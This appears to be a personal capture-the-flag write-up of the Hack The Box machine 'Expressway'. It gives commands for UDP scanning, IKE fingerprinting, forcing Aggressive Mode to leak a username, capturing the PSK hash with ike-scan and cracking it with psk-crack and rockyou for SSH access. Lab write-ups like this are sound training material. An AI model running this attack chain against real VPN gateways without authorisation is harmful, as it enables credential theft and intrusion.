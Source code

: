 
2025-10-25 18:40

Source: #htb #Boot2root 

Tags: 
### Enumeration 

Rustscan only shows port 22 open, When TCP fails, we turn to its connectionless counterpart, UDP.

```sh
udpx -t 10.129.13.112 -c 128 -w 1000 
```
- `-c`: Concurrency level
- `-w`: Wait time in milliseconds

----
UDP scan w [[nmap]]

```sh
nmap -sU -p 68,69,500,4500 -sV --script=ike-version,tftp-enum,broadcast-dhcp-discover -Pn --max-retries 3 --host-timeout 5m 10.10.11.87
```

o/p of UDP scan 
68  open  dhcpc
69  open  tftp
500  open  isakmp
#### Fingerprinting IKE

`ike-scan` - It crafts [[Internet Key Exchange]] packets to fingerprint the VPN gateway and elicit responses that can reveal its configuration, identity, and vulnerabilities.

**Initial Probe (Main Mode):**

```sh
sudo ike-scan expressway.htb
```

**Response:**

```sh
Starting ike-scan 1.9.6 with 1 hosts ([http://www.nta-monitor.com/tools/ike-scan/](http://www.nta-monitor.com/tools/ike-scan/))
10.129.13.112  Main Mode Handshake returned HDR=(CKY-R=1d432c635a2e8d64...)
        SA=(Enc=3DES-CBC Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
```

Response Breakdown:
- **Main Mode Handshake:** The server responded in Main Mode, which is more secure as it protects peer identities.
- **Weak Cryptography:** It supports `3DES` (a legacy, weak cipher), `SHA1` (no longer considered secure), and `Group=2:modp1024` (a weak Diffie-Hellman group susceptible to precomputation attacks).
- **Auth=PSK:** Authentication is done via a **Pre-Shared Key**. This is the secret we need to find.

**Aggressive mode scan** 

IKEv1’s Main Mode uses six messages to protect identities. However, Aggressive Mode cuts this down to three messages for a faster connection, but at the cost of sending the initiator and responder’s identities in the clear. If the server supports it, we can force it into this mode to leak valuable information.

```sh
sudo ike-scan -A expressway.htb
```

The server supports Aggressive Mode and leaked an identity: a Fully Qualified Domain Name of a user, `ike@expressway.htb`. This gives us a valid username.

Now we have a username (`ike`) and know the authentication method is a PSK. The final step is to capture the authentication hash from the Aggressive Mode exchange and crack the PSK offline.
##### Capturing the hash 

`ike-scan` can automatically format the necessary data for cracking with its sister tool, `psk-crack`.

```sh
sudo ike-scan -A expressway.htb --id=ike@expressway.htb -Pike.psk
```
above cmd created a ike.psk 

```sh
psk-crack -d /usr/share/wordlists/rockyou.txt ike.psk
```

reuse these new found creds for ssh access





### References
https://app.hackthebox.com/machines/736

https://www.isdadev.at/posts/htb-expressway-writeup/
https://thecybersecguru.com/ctf-walkthroughs/mastering-expressway-beginners-guide-from-hackthebox/

IKE Enum - https://routezero.security/2025/04/06/ike-cheat-sheet-for-pentration-testers/